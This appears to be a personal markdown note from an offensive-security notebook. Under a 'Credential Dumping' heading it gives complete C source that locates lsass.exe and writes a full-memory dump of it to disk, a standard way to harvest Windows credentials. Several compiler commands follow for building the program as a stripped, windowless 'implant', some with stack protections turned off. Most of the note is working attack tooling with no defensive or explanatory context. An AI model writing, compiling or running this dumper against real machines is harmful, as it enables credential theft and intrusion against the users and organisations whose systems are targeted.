

![[Pasted image 20260719102712.png]]



> [!danger] Credential Dumping
>```c
> #include <windows.h>
> #include <stdio.h>
> #include <tlhelp32.h>
> #include <DbgHelp.h>
> #pragma comment(lib,"tlhelp32.lib")
> #pragma comment(lib,"Dbghelp.lib")
> 
> 
> 
> DWORD FindTarget(const wchar_t* ProcName)
> {
>     HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
>     if (hSnapshot == INVALID_HANDLE_VALUE)
>         return 0;
> 
>     PROCESSENTRY32W pe = {0};
>    pe.dwSize = sizeof(pe);
>
>    if (!Process32FirstW(hSnapshot, &pe))
>    {
>        CloseHandle(hSnapshot);
>        return 0;
>    }
>
>    do
>    {
>        if (_wcsicmp(ProcName, pe.szExeFile) == 0)
>        {
>            DWORD pid = pe.th32ProcessID;
>            CloseHandle(hSnapshot);
>            return pid;
>        }
> 
>     } while (Process32NextW(hSnapshot, &pe));
> 
>     CloseHandle(hSnapshot);
>     return 0;
> }
> 
> int main(){
> 
>     DWORD ProcID = FindTarget(L"lsass.exe");
>     if(!ProcID){
>         printf("Dont Have Access\n");
>         return -1;
>     }
> 
>     HANDLE HLSASS = OpenProcess(PROCESS_QUERY_INFORMATION | 
>        PROCESS_VM_READ,
>        0,
>        ProcID);
>    if(!HLSASS){
>        printf("U Dont Have Access baby goril\n");
>        CloseHandle(HLSASS);
>        return -1;
>    }
>    
>    HANDLE outFile = CreateFileW(L"lsass.dmp",
>       GENERIC_ALL,
>       0,
>       NULL,
>       CREATE_ALWAYS,
>       FILE_ATTRIBUTE_NORMAL, 
>       NULL);
>       
>    if(!MiniDumpWriteDump(HLSASS,
>    ProcID, 
>    outFile, 
>    MiniDumpWithFullMemory, 
>    NULL, NULL, NULL)){
>        printf("Error MiniDump\n");
>        CloseHandle(outFile);
>        CloseHandle(HLSASS);
>        return -1;
>    }
>     
>     CloseHandle(outFile);
>     CloseHandle(HLSASS);
>     return 0x00;
> }
>```

## Compile Time

> [!hint]+ Windows Build (cl.exe)
> ```batch
> @ECHO OFF
> cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:WINDOWS /MACHINE:x64
> ```

> [!hint]+ MinGW Compiler With Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Without Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -mwindows -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler For Debug
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -g -O0 -Wall -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Strong Security
> ```bash
> x86_64-w64-mingw32-g++ implantc.cpp -O2 -D_FORTIFY_SOURCE=2 -fstack-protector-strong -fstack-clash-protection -Wl,--dynamicbase -Wl,--nxcompat -Wl,--high-entropy-va -Wall -Wextra -o secure.exe
> ```

> [!hint]+ MinGW Compiler Hard Reverse
> ```bash
> x86_64-w64-mingw32-g++ main.cpp -O3 -flto -fstack-protector-strong -fstack-clash-protection -fPIE -pie -s -o hard.exe
> x86_64-w64-mingw32-strip --strip-all hard.exe
> ```
